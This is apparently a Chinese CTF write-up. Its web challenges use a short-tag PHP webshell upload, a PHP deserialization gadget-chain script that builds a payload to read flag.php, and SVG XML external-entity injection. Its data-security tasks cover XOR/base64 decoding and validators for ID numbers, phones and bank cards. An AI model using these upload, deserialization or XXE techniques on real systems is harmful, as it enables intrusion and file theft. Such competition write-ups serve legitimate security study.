





# Web

## Upload1
简单的文件上传，没有过滤后缀名，但是过滤了php长标签，
直接上传后缀标签的短标签一句话木马即可。



传入cmd参数，得到shell



## EzSerialize
> soe@sy

简单的php反序列化，调用链为：__toString -> __call -> execute，编写代码如下，得到flag.php的内容

```php
<?php
// __toString -> __call -> execute

class User {
    public $name;
    public $role;
}

class Admin {
    public $command;
}

class FileReader {
    public $filename;
}

$fr = new FileReader();
$fr->filename = 'flag.php';

$admin = new Admin();
$admin->command = $fr;

$user = new User();
$user->role = $admin;
$user->name = 'test';

echo serialize($user) . "\n";
echo base64_encode(serialize($user));
?>
```

## UploadKing
> 你能得到King的认可吗

提示可以上传svg文件，尝试在svg中注入xml外部实体



得到文件链接，打开发现xml内容被成功包含了



使用网页上的图片查看工具查看，得到flag



# 数据安全

## dsEnData
> 某公司为了保护用户隐私，对个人敏感信息进行了加密脱敏处理。现发现其使用的加密脱敏算法为附件中“encode.py”所示，附件中的“encoded_data.csv”文件即为包含了经过加密脱敏处理的用户信息。现需要作为数据分析师的你对这些加密脱敏后的数据进行恢复。将恢复后的的信息保存到 csv 文件中（文件编码为 utf-8），并将该文件上传至该题的校验平台（在该校验平台里可以下载该题的示例文件 example.csv，可作为该题的格式参考），校验达标即可拿到 flag。（特别声明: 本题所有数据均为随机生成）


```python title=encode.py
import base64

def encode(D, K='a1a60171273e74a6'):
    res = b''
    for i in range(len(D)):
        c = K[i+1&15]
        res += bytes.fromhex(hex(D[i]^ord(c))[2:].zfill(2))
    return res
```

原加密函数就是一个简单的异或+base64编码，对应的解密就是再异或一次


```python
import csv
import base64

def myencode(D, K='a1a60171273e74a6'):
    res = b''
    for i in range(len(D)):
        c = K[i+1&15]
        res += bytes.fromhex(hex(D[i]^ord(c))[2:].zfill(2))
    return res

def mydecode(encode_data):
    decode_data = base64.b64decode(encode_data)
    original_data = myencode(decode_data)
    # print(original_data.decode())
    return original_data.decode()

csv_file = 'encoded_data.csv'
# with open(csv_file, mode='r', encoding='utf-8') as file:
# 这里图个方便就不用with管理上下文了
reader = csv.reader(open(csv_file, mode='r', encoding='utf-8'))
writer = csv.writer(open('decoded_data.csv', mode='a', encoding='utf-8', newline=''))
for row in reader:
    # print(row[1])
    try:
        # print(mydecode(row[1].strip()))
        # row[0] = mydecode(row[0].strip()) # 第0列的数据不用解密
        row[1] = mydecode(row[1].strip())
        row[2] = mydecode(row[2].strip())
        row[3] = mydecode(row[3].strip())
        row[4] = mydecode(row[4].strip())
        writer.writerow(row)
    except Exception as e:
        pass
```

这样的出来的数据正确率达到了`99%`，直接提交获得flag

## dssql
> 选手需要从SQL文件中恢复出用户身份信息表、账户权限信息表和操作信息表三个数据表，然后根据文档规范进行数据清洗，找出所有存在违规行为的账户以及对应的违规类型,将结果保存为csv文件提交到验证靶机若准确率达标则会给出flag。
题目分值：

这道题简直又臭又长，需要根据每个错误类型编写对用的检查函数，
这里我直接把每个错误类型的要求写进函数文档里了，故不列举。

```python
from collections import defaultdict
import csv

users = defaultdict(list[str]) # 使用defaultdict快速向不存在的键写入值
operations = []
violations = {"信息违规": [], "操作违规": []} # 使用字典避免重复

database = "data.sql"

def name_valid(name):
    """
    必须为2-4个中文字符
    不能为空或非字符串类型
    必须完全由中文字符组成
    不允许包含数字、英文字母或特殊符号
    """
    if not name:
        return False
    if not all('\u4e00' <= char <= '\u9fa5' for char in name): # 使用unicode编码范围检查中文
        return False
    if not (2 <= len(name) <= 4):
        return False
    return True

def phonenumber_valid(phone):
    """
    必须为11位数字
    必须以1开头
    第二位必须是3-9的数字
    不能包含非数字字符
    """
    return len(phone) == 11 and phone.isdigit() and phone[0] == '1' and phone[1] in '23456789'

def sfz_valid(sfz): # 身份证的英文id和card都重复了，只好祭出拼音大法
    """
    必须为18位字符
    前17位必须为数字
    最后一位可以是数字或X/x
    必须通过身份证校验码算法验证
    校验码算法：前17位数字分别与权重[7,9,10,5,8,4,2,1,6,3,7,9,10,5,8,4,2]相乘后求和，对11取模，根据结果查表['1','0','X','9','8','7','6','5','4','3','2']得到校验码
    """
    if not (len(sfz) == 18 and sfz[:17].isdigit() and sfz[17] in '0123456789Xx'):
        return False
    weights = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]
    total = sum(int(sfz[i]) * weights[i] for i in range(17))
    check_digit = ['1', '0', 'X', '9', '8', '7', '6', '5', '4', '3', '2'][total % 11]
    return check_digit == sfz[17].upper()

def registertime_valid(date_str, sfz):
    """
    格式必须为YYYY/MM/DD
    月份必须在1至12之间
    日期必须在1至31之间
    必须是真实存在的日期（如不是2月30日等）
    必须在2015/1/1至2025/10/31范围内
    必须晚于或等于身份证号中的出生日期
    """
    from datetime import datetime
    # 使用datetime库的日期格式化简单快捷的避免又臭又长的日期检验和日期比较
    try:
        date = datetime.strptime(date_str, '%Y/%m/%d')
        min_date = datetime(2015, 1, 1)
        max_date = datetime(2025, 10, 31)
        birth_date = datetime.strptime(sfz[6:14], '%Y%m%d')
        return min_date <= date <= max_date and date >= birth_date
    except ValueError:
        return False

def card_valid(card):
    """
    必须为16-19位数字
    必须通过Luhn算法验证
    Luhn算法：从右到左，偶数位数字乘以2，如果结果大于9则减去9，所有数字相加的和必须能被10整除
    """
    if not (16 <= len(card) <= 19 and card.isdigit()):
        return False
    total = 0
    for i, digit in enumerate(card[::-1]):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            n = n - 9 if n > 9 else n
        total += n
    return total % 10 == 0

def operation_valid(op, power):
    """
    客服访问了商品管理或系统日志模块
    财务访问了用户管理、商品管理或系统日志模块
    商品经理访问了用户管理、订单管理或系统日志模块
    系统审计员访问了用户管理、商品管理或订单管理模块
    """
    """
    管理员：可以访问所有模块 (user_management, product_management, order_management,
    system_logs)
    客服：只能访问用户管理(user_management)和订单管理(order_management)模块
    财务：只能访问订单管理(order_management)模块
    商品经理：只能访问商品管理(product_management)模块
    系统审计员：只能访问系统日志(system_logs)模块
    """
    valid_operations = {
        "管理员": ["user_management", "product_management", "order_management", "system_logs"],
        "客服": ["user_management", "order_management"],
        "财务": ["order_management"],
        "商品经理": ["product_management"],
        "系统审计员": ["system_logs"],
    }
    return op in valid_operations[power]


# 不知道怎么读sql，只好逐行处理了www
with open(database, 'r', encoding='utf-8') as f:
    lines = f.readlines()
    for line in lines:
        if line.startswith("INSERT INTO `users`"):
            records = line.split(",")
            userid = records[0].split("(")[-1]
            name = records[1].strip().strip("'")
            phonenumber = records[2].strip().strip("'")
            sfz = records[3].strip().strip("'")
            card = records[4].strip().strip("'")
            registertime = records[5].strip().strip("'")
            power = records[6].strip().strip("'").strip("');")

            users[userid] = [name, phonenumber, sfz, card, registertime, power]

        if line.startswith("INSERT INTO `operations`"):
            records = line.split(",")
            opid = records[0].split("(")[-1]
            user = records[1].strip().strip("'")
            optype = records[2].strip().strip("'")
            opmodule = records[3].strip().strip("'")
            time = records[4].strip().strip("'").strip("');")

            operations.append([opid, user, optype, opmodule, time])

file = "violations.csv"
writer = csv.writer(open(file, 'w', newline='', encoding='utf-8'))
writer.writerow(["姓名", "违规类型"])

for userid, info in users.items():
    name = info[0]
    phonenumber = info[1]
    sfz = info[2]
    card = info[3]
    registertime = info[4]
    power = info[5]
    if not name_valid(name):
        violations["信息违规"].append(name)

    if not phonenumber_valid(phonenumber):
        violations["信息违规"].append(name)

    if not sfz_valid(sfz):
        violations["信息违规"].append(name)

    if not card_valid(card):
        violations["信息违规"].append(name)

    if not registertime_valid(registertime, sfz):
        violations["信息违规"].append(name)

for op in operations:
    userid = op[1]
    opmodule = op[3]
    username = users[userid][0]
    power = users[userid][5]

    if not operation_valid(opmodule, power):
        violations["操作违规"].append(username)

for (key, value) in violations.items():
    for name in set(value):
        writer.writerow([name, key])
```

这样生成的文件正确率达到了`100%`，直接提交，得到flag